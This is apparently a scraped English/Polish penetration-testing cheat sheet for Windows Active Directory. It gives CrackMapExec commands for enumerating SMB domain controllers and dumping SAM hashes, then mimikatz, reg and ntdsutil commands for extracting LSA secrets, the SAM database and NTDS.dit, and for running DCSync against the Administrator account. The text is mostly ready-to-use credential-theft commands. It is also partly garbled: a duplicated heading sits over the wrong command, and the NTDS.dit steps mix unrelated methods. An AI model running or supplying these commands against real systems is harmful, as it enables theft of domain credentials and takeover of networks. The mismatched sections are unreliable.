 ### Enumerate SMB domain controllers NetBIOS

### Enumeracja NetBIOS kontrolerów domeny SMB

```bash
cme smb <target_ip> -u <username> -p <password> --dcs-netbios
```

### Enumerate SMB domain controllers DNS

### Enumeracja DNS kontrolerów domeny SMB

```bash
cme smb <target_ip> -u <username> -p <password> --dcs-dns
```

### Enumerate SMB domain controllers SID

### Enumeracja SID kontrolerów domeny SMB

```bash
cme smb <target_ip> -u <username> -p <password> --dcs-sid
```

### Enumerate SMB domain controllers SID
```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```
### Zrzut LSA secrets

LSA (Local Security Authority) przechowuje różne poufne dane, takie jak hasła użytkowników, klucze szyfrowania i inne tajne informacje. Można je zrzucić za pomocą `mimikatz`.

```shell
mimikatz # sekurlsa::logonpasswords
```

### Dump SAM database

SAM (Security Account Manager) przechowuje hasła lokalnych kont użytkowników. Można je zrzucić za pomocą `reg` i `mimikatz`.

```shell
reg save hklm\sam sam
reg save hklm\system system
mimikatz # lsadump::sam /system:system /sam:sam
```

### Dump NTDS.dit

NTDS.dit to baza danych Active Directory, która przechowuje hasła wszystkich użytkowników w domenie. Można ją zrzucić za pomocą `ntdsutil` i `mimikatz`.

```shell
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
copy c:\temp\Active Directory\ntds.dit .
copy c:\temp\registry\SYSTEM .
mimikatz # lsadump::dcsync /user:Administrator
```
